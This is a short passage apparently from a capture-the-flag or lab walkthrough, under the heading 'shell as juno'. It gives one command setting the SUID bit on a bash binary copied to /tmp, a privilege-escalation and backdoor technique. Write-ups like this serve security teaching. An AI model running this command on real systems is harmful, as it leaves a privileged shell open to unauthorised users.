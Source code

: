 ![replace-me-26](img/replace-me-26.png)

#### shell as `juno`
Use the `chmod` command to set the SUID permission on the `bash` binary just copied.

```bash
chmod u+s /tmp/bash
```